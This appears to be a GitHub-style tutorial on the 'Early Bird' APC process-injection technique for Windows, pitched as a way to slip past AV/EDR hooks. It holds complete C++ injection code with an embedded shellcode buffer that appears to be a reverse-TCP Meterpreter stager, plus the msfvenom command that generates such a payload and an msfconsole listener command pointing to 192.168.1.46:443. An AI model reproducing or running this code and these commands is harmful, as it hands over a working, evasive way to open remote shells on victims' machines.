 # Early Bird Injection

One of the main advantages of this technique over the regular APC Queue code injection, is that in Early Bird technique, the malicious behaviour takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some AV/EDR hooks.

### Techniques

* A malicious program creates a new legitimate process (say calc.exe) in a suspended state
* Memory for shellcode is allocated in the newly created process's memory space
* APC routine pointing to the shellcode is declared
* Shellcode is written to the previously allocated memory
* APC is queued to the main thread (currently in suspended state)
* Thread is resumed and the shellcode is executed

##### early-bird.cpp

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
        unsigned char buf[] =
        "\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x31\xff\x8b\x72\x28"
        "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
        "\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
        "\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x01\xd3\x50\x8b\x48\x18"
        "\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
        "\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
        "\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
        "\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
        "\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
        "\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
        "\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x2e\x68\x02"
        "\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
        "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
        "\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
        "\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
        "\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
        "\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
        "\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
        "\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
        "\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
        "\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

    SIZE_T shellSize = sizeof(buf);
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
// create new legitimate process
    CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    HANDLE victimProcess = pi.hProcess;
    HANDLE threadHandle = pi.hThread;
// Allocate the space for shellcode within legitimate process
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;

    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
// APC is queued to the main thread
     QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
// Thread is resumed and the shellcode is executed
    ResumeThread(threadHandle);
}
```

### payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f c
```

### listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

##### Tips :

* insert breakpoint at QueueUserAPC